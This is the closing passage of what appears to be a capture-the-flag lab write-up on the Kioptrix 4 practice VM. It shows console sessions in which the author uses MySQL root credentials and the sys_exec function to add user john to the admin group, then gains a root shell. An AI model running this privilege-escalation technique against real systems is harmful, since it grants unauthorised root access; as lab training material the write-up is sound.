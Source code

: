 Ahhh don't you love the smell of root in the morning! ;)

Great, from here let's login to MySQL with our newfound credentials and run a usermod command with __sys\_exec__ to give john admin privileges!

```console
john@Kioptrix4:/var/www$ mysql -h localhost -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 105
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema | 
| members            | 
| mysql              | 
+--------------------+
3 rows in set (0.00 sec)

mysql> select sys_exec('usermod -a -G admin john');
+--------------------------------------+
| sys_exec('usermod -a -G admin john') |
+--------------------------------------+
| NULL                                 | 
+--------------------------------------+
1 row in set (0.08 sec)
```

Did it work? I don't know, let's find out and see!

```console
john@Kioptrix4:/var/www$ sudo su
[sudo] password for john: 
root@Kioptrix4:/var/www# id
uid=0(root) gid=0(root) groups=0(root)
root@Kioptrix4:/var/www# whoami
root
```

## Closing:

And there we have it folks! We just rooted Kioptrix 4!

This level was a tad harder than level 3 since it required for you to think a little "outside" the box and utilize MySQL for your exploitation of privileges. This just goes to show - don't leave any stone unturned! At the same time we got to use SQL Injection again and it allowed us to refresh our memory on how this exploit worked.

As always guys - when you get stuck, refer to Google first - after some digging you'll find what you need, just don't give up and... __Try Harder__!

That's all for now - thanks for reading!
